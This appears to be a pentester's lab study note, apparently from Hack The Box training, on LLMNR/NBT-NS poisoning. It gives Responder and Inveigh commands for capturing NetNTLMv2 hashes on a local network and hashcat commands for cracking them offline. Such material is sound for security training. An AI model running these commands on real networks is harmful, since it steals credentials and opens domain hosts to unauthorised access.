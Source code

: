 ## LLMNR/NBT-NS Poisoning 

When DNS failed : a machine will try to ask all other machines on the local network
- First with LLMNR
- If LLMNT failed, with NBT-NS

### - from Linux

LLMNR uses 5355 over UDP
NBT-NS uses 137 over UDP

LLMNR (Link-Local Multicast Name Resolution) : Diffusion multicast de noms sur un réseau local (à désactiver sur un réseau d'entreprise si présence d'un serveur DNS et/ou DHCP)

NBT-NS : 

Responder to poison these requests : With network access, we can spoof an authoritative name resolution source in the broadcast domain by responding to LLMNR and NBT-NS traffic as if they have an answer for the requesting host. This poisoning effort is done to get the victims to communicate with our system by pretending that our rogue system knows the location of the requested host. The requested host requires name resolution or authentication actions, we can capture the NetNTLM hash and subject it to an offline brute force attack in an attempt to retrieve the cleartext password.

--> LLMNR/NBNS spoofing combined with a lack of SMB signing can often lead to administrative access on hosts within a domain. 

yanisAlb@htb[/htb]$ responder -h
ls --> SMB-NTLMv2-SSP-172.16.5.200.txt

sudo responder -I ens224 
hashcat -m 5600 SMB-NTLMv2-SSP-172.16.5.200.txt /usr/share/wordlists/rockyou.txt 

### - from Windows

Inveigh works similar to Responder, but is written in PowerShell and C#
Inveigh can listen to IPv4 and IPv6 and several other protocols, including LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTP, HTTPS, SMB, LDAP, WebDAV, and Proxy Auth. 

PS C:\> cd .\Tools\
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

hashcat -m 5600 Inveigh-NTLMv2.txt /usr/share/wordlists/rockyou.txt

C# Inveigh (InveighZero)
.\Inveigh.exe
GET NTLMV2UNIQUE
GET NTLMV2USERNAMES

sudo tcpdump -i ens224
